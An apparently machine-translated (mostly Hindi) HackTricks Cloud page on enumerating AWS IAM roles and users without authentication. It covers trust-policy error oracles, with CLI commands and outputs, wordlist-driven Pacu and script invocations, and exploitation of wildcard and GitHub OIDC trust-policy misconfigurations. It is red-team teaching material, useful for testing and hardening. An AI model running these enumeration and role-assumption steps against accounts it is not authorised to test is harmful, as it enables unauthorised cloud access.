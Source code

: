 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Enumerate Roles & Usernames in an account

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**यह तकनीक अब काम नहीं करती** क्योंकि यदि भूमिका मौजूद है या नहीं, तो आपको हमेशा यह त्रुटि मिलती है:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

आप **इसका परीक्षण कर सकते हैं**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

**आवश्यक अनुमतियों के बिना भूमिका को मानने का प्रयास करने पर** AWS त्रुटि संदेश उत्पन्न होता है। उदाहरण के लिए, यदि अनधिकृत है, तो AWS यह वापस कर सकता है:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
यह संदेश भूमिका के अस्तित्व की पुष्टि करता है लेकिन यह संकेत करता है कि इसकी असुमे भूमिका नीति आपकी असुमेशन की अनुमति नहीं देती। इसके विपरीत, **एक गैर-मौजूद भूमिका को असुम करने की कोशिश करना एक अलग त्रुटि की ओर ले जाता है**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
दिलचस्प बात यह है कि **मौजूदा और गैर-मौजूदा भूमिकाओं के बीच अंतर करने की यह विधि** विभिन्न AWS खातों के बीच भी लागू होती है। एक मान्य AWS खाता आईडी और एक लक्षित शब्द सूची के साथ, कोई भी खाते में मौजूद भूमिकाओं को बिना किसी अंतर्निहित सीमाओं का सामना किए सूचीबद्ध कर सकता है।

आप इस [स्क्रिप्ट का उपयोग करके संभावित प्रिंसिपल्स को सूचीबद्ध कर सकते हैं](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) इस समस्या का दुरुपयोग करते हुए।

### ट्रस्ट नीतियाँ: ब्रूट-फोर्स क्रॉस अकाउंट भूमिकाएँ और उपयोगकर्ता

एक **IAM भूमिका की ट्रस्ट नीति को कॉन्फ़िगर या अपडेट करना इस बात को परिभाषित करने में शामिल है कि कौन से AWS संसाधन या सेवाएँ उस भूमिका को ग्रहण करने की अनुमति दी गई हैं** और अस्थायी क्रेडेंशियल प्राप्त करें। यदि नीति में निर्दिष्ट संसाधन **मौजूद है**, तो ट्रस्ट नीति **सफलता से** सहेजी जाती है। हालाँकि, यदि संसाधन **मौजूद नहीं है**, तो एक **त्रुटि उत्पन्न होती है**, जो यह संकेत देती है कि एक अमान्य प्रिंसिपल प्रदान किया गया था।

{% hint style="warning" %}
ध्यान दें कि उस संसाधन में आप एक क्रॉस अकाउंट भूमिका या उपयोगकर्ता निर्दिष्ट कर सकते हैं:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

यह एक नीति का उदाहरण है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

यह वह **त्रुटि** है जो आपको मिलेगी यदि आप एक **भूमिका का उपयोग करते हैं जो मौजूद नहीं है**। यदि भूमिका **मौजूद है**, तो नीति **बिना किसी त्रुटि के** **सहेजी** जाएगी। (त्रुटि अपडेट के लिए है, लेकिन यह बनाने के समय भी काम करती है)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
आप इस प्रक्रिया को स्वचालित कर सकते हैं [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

हम [Pacu](https://github.com/RhinoSecurityLabs/pacu) का उपयोग कर रहे हैं:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* उदाहरण में उपयोग किया गया `admin` भूमिका एक **भूमिका है जो आपके खाते में है जिसे pacu द्वारा अनुकरण किया जाएगा** ताकि वह enumeration के लिए आवश्यक नीतियों को बना सके

### Privesc

यदि भूमिका गलत तरीके से कॉन्फ़िगर की गई है और किसी को भी इसे मानने की अनुमति देती है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
The attacker could just assume it.

## Third Party OIDC Federation

कल्पना करें कि आप एक **Github Actions workflow** पढ़ने में सफल होते हैं जो **AWS** के अंदर एक **role** तक पहुँच रहा है।\
यह विश्वास एक भूमिका तक पहुँच प्रदान कर सकता है जिसमें निम्नलिखित **trust policy** है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
यह ट्रस्ट नीति सही हो सकती है, लेकिन **अधिक शर्तों की कमी** आपको इसे अविश्वास करने के लिए मजबूर करनी चाहिए।\
यह इसलिए है क्योंकि पिछले भूमिका को **Github Actions से कोई भी** मान लिया जा सकता है! आपको शर्तों में अन्य चीजें भी निर्दिष्ट करनी चाहिए जैसे कि संगठन का नाम, रिपॉजिटरी का नाम, वातावरण, शाखा...

एक और संभावित गलत कॉन्फ़िगरेशन है **एक शर्त जोड़ना** जैसे कि निम्नलिखित:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
ध्यान दें कि **वाइल्डकार्ड** (\*) **कोलन** (:) से पहले है। आप **org\_name1** जैसे एक संगठन बना सकते हैं और एक Github Action से **भूमिका ग्रहण** कर सकते हैं।

## संदर्भ

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
